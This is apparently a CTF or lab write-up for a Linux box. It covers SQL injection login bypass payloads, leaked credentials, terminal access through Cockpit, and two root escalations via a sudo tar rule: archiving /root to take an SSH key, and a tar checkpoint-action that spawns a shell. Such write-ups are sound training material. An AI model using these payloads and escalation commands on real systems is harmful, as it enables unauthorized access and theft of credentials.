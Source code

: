 ## Takeaway
- Abuse how Linux Shell interprets wildcards `*`:
	- https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa
## Metadata
- Both `feroxbuster` and `nikto` will identify that port `80` is running a login portal at `http://192.168.240.10/login.php`.![[Pasted image 20240323131958.png]]
	- The login parameter is subjected to `SQL injection`![[Pasted image 20240323132518.png]]
	- Using `admin' or 1=1-- -` as username will be redirected to `blocked.html`. However Since the backend if using `%` within the SQL query, using `'-- -` alone is enough for one to bypass authentication and redirected to `password-dashboard.php` to get two pairs of credentials with password base64-encoded.![[Pasted image 20240323133545.png]]
		- `james`: canttouchhhthiss@455152
		- `cameron`: thisscanttbetouchedd@455152
- port `9090` is running `Cockpit` which is a web-based graphical interface for servers.![[Pasted image 20240323134550.png]]
- Running `sudo -l` as `james` will show the user can run `/usr/bin/tar -czvf /tmp/backup.tar.gz *` as `root` without password.![[Pasted image 20240323134846.png]]
# Exploitation
## Shell as james
- Login using `james:canttouchhhthiss@455152` at `https://192.168.240.10:9090/system/terminal`.
- Navigate to terminal section to obtain a shell as `james`.![[Pasted image 20240323134744.png]]
# PrivEsc 
# 1
- Run `sudo /usr/bin/tar -czvf /tmp/backup.tar.gz /root` to archive the `/root` folder, one can identify a SSH private key.![[Pasted image 20240323144421.png]]
- Transfer the archive onto attacker machine and extract `id_rsa`, run `ssh root@192.168.240.10 -i id_rsa` to obtain a SSH `root` session.
# 2
- Run `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` directly.